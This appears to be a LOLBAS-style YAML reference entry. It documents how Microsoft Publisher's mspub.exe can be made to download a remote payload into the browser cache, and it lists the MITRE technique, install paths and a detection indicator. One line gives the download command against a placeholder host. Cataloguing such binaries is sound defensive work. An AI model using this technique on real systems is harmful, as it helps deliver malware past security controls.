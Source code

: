 ```yaml
---
Name: Mspub.exe
Description: Microsoft Publisher
Author: Nir Chako
Created: 2022-08-02
Commands:
  - Command: mspub.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSPUB.exe
Detection:
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: 'Nir Chako (Pentera)'
    Handle: '@C_h4ck_0'
---
```

